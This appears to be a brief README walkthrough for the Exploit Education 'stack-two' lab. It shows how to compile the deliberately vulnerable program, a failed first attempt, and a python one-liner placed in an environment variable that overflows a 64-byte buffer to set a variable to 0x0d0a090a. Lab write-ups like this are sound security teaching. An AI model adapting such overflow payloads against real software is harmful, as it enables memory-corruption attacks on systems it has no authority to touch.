 ### How to

Build source code
```
clang main.cpp -o stack.2.bin
```

Run and exploit (first try)

```
export ExploitEducation="A" 
./stack.2.bin
```

```
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

Run and exploit (solution)

```
export ExploitEducation=`python3 -c "print('a' *64 + '\n\t\n\r')"`
./stack.2.bin
```

